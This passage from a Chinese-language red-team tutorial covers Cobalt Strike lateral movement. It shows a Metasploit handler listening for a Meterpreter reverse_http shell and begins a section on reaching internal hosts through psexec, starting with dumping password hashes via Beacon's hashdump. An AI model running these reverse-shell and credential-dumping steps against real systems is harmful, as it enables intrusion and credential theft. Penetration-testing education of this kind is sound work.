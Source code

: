 打开 `msf` 配置文件

```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_http
set lhost 0.0.0.0
set lport 8888
run
```

> 注意 不能使用 X64 位的 beacon.exe!

[![](assets/1702372940-a41fe62e354274f96e36e3098f11932e.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/OS/%E5%86%85%E7%BD%91/CS-%E5%86%85%E7%BD%91%E6%A8%AA%E5%90%91/13.png)

#### [](#%E5%88%A9%E7%94%A8cs%E4%B8%AD%E7%9A%84psexec%E4%B8%8A%E7%BA%BF%E5%86%85%E7%BD%91%E4%B8%8D%E5%87%BA%E7%BD%91%E4%B8%BB%E6%9C%BA "利用cs中的psexec上线内网不出网主机")利用 cs 中的 psexec 上线内网不出网主机[](#%E5%88%A9%E7%94%A8cs%E4%B8%AD%E7%9A%84psexec%E4%B8%8A%E7%BA%BF%E5%86%85%E7%BD%91%E4%B8%8D%E5%87%BA%E7%BD%91%E4%B8%BB%E6%9C%BA)

1.  `Dump Hashes导出HASH`

Beacon 右键，`Access–>Dump Hashes` 或命令行中执行`hashdump命令`。  
`hashdump`必须在拥有`adminstrators`权限的情况下才能执行。
